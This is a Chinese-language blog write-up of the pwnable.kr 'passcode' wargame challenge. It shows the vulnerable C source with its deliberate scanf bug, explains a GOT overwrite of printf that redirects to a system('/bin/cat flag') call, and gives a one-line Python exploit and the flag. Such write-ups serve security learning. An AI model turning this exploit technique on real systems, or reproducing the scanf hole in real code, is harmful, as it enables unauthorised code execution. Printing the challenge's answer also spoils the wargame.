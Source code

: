 ```yaml
---
layout: post
title: "pwnable.kr passcode"
date: 2018-07-10 
tag: pwn Writeup pwnable.kr
---
```


用`ssh passcode@pwnable.kr -p2222 (pw:guest)`连上后看见有源码，代码如下：

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;
}
```

我们可以很明显的看见 login() 函数中 scanf() 写错了。`scp -P 2222 passcode@pwnable.kr:passcode /images/posts/pwnable.kr_passcode/` 把二进制文件down下来看了看发现 passcode1 就是 name[] 的最后4个字节。因此我们有了一次向任意地址写入4 bytes的机会。

![img_1](/images/posts/pwnable.kr_passcode/img_1.png)
![img_2](/images/posts/pwnable.kr_passcode/img_2.png)

用 checksec 查看一下保护。

![img_3](/images/posts/pwnable.kr_passcode/img_3.jpg)

现在我的想法是通过修改GOT表来控制EIP，GOT表的相关知识可以看看我写的[GOT与PLT](https://demonsin.github.io/2018/06/GOT%E4%B8%8EPLT/)。

我们将目标代码 `system("/bin/cat flag");` 的地址覆盖掉GOT表中 printf() 的地址。这样接下来调用 printf() 时就会跳到目标代码去了。

用 `readelf -r passcode` 看见 printf() 在 GOT表中的地址为 0x0804a000。在 IDA 中看到目标地址为 0x080485E3，即十进制的 134514147。

![img_4](/images/posts/pwnable.kr_passcode/img_4.jpg)
![img_5](/images/posts/pwnable.kr_passcode/img_5.png)

exp: `python -c "print 'A' * 96 + '\x00\xa0\x04\x08' + '134514147\n'" | /images/posts/pwnable.kr_passcode/passcode`

![img_6](/images/posts/pwnable.kr_passcode/img_6.jpg)

flag: Sorry mom.. I got confused about scanf usage :(
